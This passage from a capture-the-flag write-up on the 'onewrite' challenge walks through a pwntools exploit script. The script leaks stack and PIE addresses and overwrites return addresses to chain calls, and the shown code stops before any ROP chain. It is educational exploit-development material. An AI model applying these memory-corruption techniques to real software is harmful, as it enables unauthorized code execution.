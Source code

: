With that, we can see that `rsp` points to `0x7ffd5f926040` on the stack. For this iteration the stack leak was `0x7ffd5f925f70`. So the offset from the stack leak to where we store the start of our ROP Chain is `0x7ffd5f926040 - 0x7ffd5f925f70 = 0xd0`.

## Exploit

Putting it all together, we have the following exploit:

```
# This exploit is based off of: https://github.com/EmpireCTF/empirectf/blob/master/writeups/2019-01-19-Insomni-Hack-Teaser/README.md#onewrite

from pwn import *


target = process('./onewrite')
elf = ELF('onewrite')
#gdb.attach(target, gdbscript='pie b *0x106f3')

# Establish helper functions
def leak(opt):
    target.recvuntil('>')
    target.sendline(str(opt))
    leak = target.recvline()
    leak = int(leak, 16)
    return leak

def write(adr, val, other = 0):
    target.recvuntil('address :')
    target.send(str(adr))
    target.recvuntil('data :')
    if other == 0:
        target.send(p64(val))
    else:
        target.send(val)

    

# First leak the Stack address, and calculate where the return address will be in do_overwrite
stackLeak = leak(1)
ripAdr = stackLeak + 0x18

# Calculate where the return address for __libc_csu_fini
csiRipAdr = stackLeak - 72

# Write over the return address in do_overwrite with do_leak
write(ripAdr, p8(0x04), 1)


# Leak the PIE address of do leak
doLeakAdr = leak(2)

# Calculate the base of PIE  
pieBase = doLeakAdr - elf.symbols['do_leak']

# Calculate the address of the _fini_arr table, and the __libc_csu_fini function using the PIE base
finiArrAdr = pieBase + elf.symbols['__do_global_dtors_aux_fini_array_entry']
csuFini = pieBase + elf.symbols["__libc_csu_fini"]

# Calculate the position of do_overwrite
doOverwrite = pieBase + elf.symbols['do_overwrite']

# Write over return address in do_overwrite with do_overwrite
write(ripAdr, p8(0x04), 1)
```
